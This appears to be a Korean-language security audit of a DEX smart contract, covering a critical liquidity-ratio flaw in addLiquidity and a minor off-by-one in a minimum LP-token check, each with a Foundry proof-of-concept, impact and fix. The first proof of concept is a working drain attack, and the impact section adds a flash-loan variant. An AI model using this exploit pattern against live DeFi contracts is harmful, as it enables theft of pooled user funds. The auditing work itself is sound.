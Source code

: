 # 1. DEX - addLiquidity의 유동성 공급비 검증의 부재 및 부적절한 토큰 발급

## 설명

<aside>

### **키워드 : Vulnerability - 유동성 풀 조작 및 부적절한 토큰 발급**

### **심각도 : Critical**

`addLiquidity` 함수내부에서 두 토큰의 유동성 공급량 비율에 대한 검증이 이루어지지 않는다.
이를 악용하여 유동성 풀에 원하는 비율로 토큰을 공급하여 교환비를 조작할 수 있고, 공급량보다 많은 양의 LP토큰을 발급받을 수 있다.

</aside>

```solidity
token_amount =
        ((tokenXAmount * 10 ** 18 * totalSupply()) / reserve_x) /
        10 ** 18;
```

유동성 풀에 초기에 공급된 비율로 공급되는지 검사하고 이를 유동성 풀의 비율이 깨지지 않게 공급되도록 유도해야 한다. 하지만 이에 대한 검증이 이루어지지 않고 유동성 풀에 공급하게 된다.

그리고 이때 LP토큰 발행량은 tokenXAmount에 의존하여 발행된다.

따라서 유동성 풀의 비율을 임의로 조작할 수 있고 이는 곧 적절하지 못한 가격으로 토큰을 교환할 수 있으며 LP토큰의 발행량이 잘못 책정되어, 이를 복합하면 DEX의 유동성을 탈취할 수 있게 된다.

## PoC

```solidity
function testPOC() external {
        tokenX.transfer(address(0x01), 1 ether);
        tokenY.transfer(address(0x01), 100 ether);

        tokenX.transfer(address(0x02), 100 ether);
        tokenY.transfer(address(0x02), 102 ether);

        vm.startPrank(address(0x01));
        {
            tokenX.approve(address(dex), type(uint).max);
            tokenY.approve(address(dex), type(uint).max);
            uint256 LP1 = dex.addLiquidity(1 ether, 100 ether, 0);
        }
        vm.stopPrank();

        vm.startPrank(address(0x02));
        {
            tokenX.approve(address(dex), type(uint).max);
            tokenY.approve(address(dex), type(uint).max);
            uint256 lp = dex.addLiquidity(100 ether, 1 ether, 0);

            console.log(
                "before swap balance",
                tokenX.balanceOf(address(0x02)),
                tokenY.balanceOf(address(0x02))
            );
            uint res = dex.swap(0, 101 ether, 0);
            console.log(
                "after swap balance",
                tokenX.balanceOf(address(0x02)),
                tokenY.balanceOf(address(0x02))
            );

            dex.removeLiquidity(lp, 0, 0);
            console.log(
                "Attack result",
                tokenX.balanceOf(address(0x02)),
                tokenY.balanceOf(address(0x02))
            );
        }
        vm.stopPrank();
    }
```

```solidity
Running 1 test for test/Dex.t.sol:DexTest
[PASS] testPOC() (gas: 451269)
Logs:
  before swap balance 0 101000000000000000000
  after swap balance 50449500000000000000 0
  Attack result 100499500000000000000 200000000000000000000
```

초기 유동성 풀에 A가 x토큰과 y토큰을 1:100 비율로 토큰을 공급한다. 이는 곧 실제 토큰의 가치에 따른 교환비라고 볼 수 있다.

이때 유저 B가 기존의 유동성 비율과는 무관하게 x토큰과 y토큰을 100:1 비율로 공급한다. 이때 유동성 풀에는 1:1 로 토큰이 존재한다. 이후 swap을 통해 y토큰을 x토큰으로 변환한다.

유동성풀의 비율이 본래 가치를 따르지 않고 잘못된 토큰 비율로 계산되어 변환되었음을 확인할 수 있다.

근거로 본래 가치는 100:1 이지만 교환의 결과는 y토큰 100개가 x토큰 약 50개로 변환되는 것을 확인가능하다. 해당 DEX의 유동성 풀의 비율이 깨졌기 때문이다.

이후 LP토큰을 반환하여 유동성을 제거한다. 유저 B의 토큰 발행량은 x토큰 유동성 공급량에만 의존하기에 발행된 토큰의 100/101 만큼을 소유하고 있는 상태이다.

초기 자본은 x토큰 100 ether, y토큰 102 ether였지만, 교환 이후에는 dex에 존재하던 x토큰과 y토큰 대부분(100/101)을 탈취한 것을 확인할 수 있다.

## 파급력

Flash loan 등을 통해 유동성을 공급하여 유동성 비를 깨뜨린 후 실제 가치비가 아닌 잘못된 비율로 교환이 가능하며, 교환 후 유동성을 제거하면 공급량보다 많은 양을 반환받을 수 있기에 DEX에서 제공하는 가치를 신뢰할 수 없으며 DEX의 유동성을 탈취할 수 있다.

누군가가 위의 PoC 처럼 DEX의 유동성 풀에 버금가는 금액을 들고 나타난다면 유동성 풀의 모든 토큰을 탈취하는 것도 불가능한 일이 아닐 것이다.

특정 조건이 필요없어 공격 난이도가 낮음에도 불구하고 유동성 풀을 조작하여 이득을 취할 수 있기에 위험도는 매우 높다고 볼 수 있다.

## 해결 방안

```solidity
else {
    require(
        tokenXAmount * reserve_y == tokenYAmount * reserve_x,
        "imbalance add liquidity"
    );
    token_amount =
        ((tokenXAmount * 10 ** 18 * totalSupply()) / reserve_x) /
        10 ** 18;
}
```

초회 공급이 아닌 경우에는 공급비가 유동성 풀의 비율과 동일한지 검사하는 로직을 추가하여 이를 방지할 수 있다.

# 2. DEX - 최소 토큰 발급량 등호 실수

## 설명

<aside>

### **키워드 : Condition mistake**

### **심각도 : Informational**

등호 실수로 인해 지정한 최솟값과 동일한 양의 토큰을 발급하려고 시도하면 revert가 발생한다.

</aside>

```solidity
require(
      token_amount > minimumLPTokenAmount,
      "token_amount > minimumLPTokenAmount"
  );
```

등호가 존재하지 않아 최소 토큰량과 동일한 경우 revert가 발생한다.

## PoC

```solidity
function testPOC() external {
    dex.addLiquidity(1, 1, 1);
}
```

```solidity
Running 1 test for test/Dex.t.sol:DexTest
[FAIL. Reason: token_amount > minimumLPTokenAmount] testPOC() (gas: 42870)
Test result: FAILED. 0 passed; 1 failed; finished in 4.42ms
```

## 파급력

문제가 없어야 하는 실행임에도 revert가 발생한다. 하지만 문제가 되는 최솟값은 유저가 임의로 지정 가능하며 이로인한 손해는 revert 발생으로 인해 증발한 가스비 정도에 그친다. 따라서 위험도는 없다고 판단하였다.

## 해결 방법

```solidity
require(
      token_amount >= minimumLPTokenAmount,
      "token_amount >= minimumLPTokenAmount"
  );
```

등호를 추가하여 최솟값과 LP토큰 발행량이 동일할 경우에도 정상적으로 실행되게 한다.

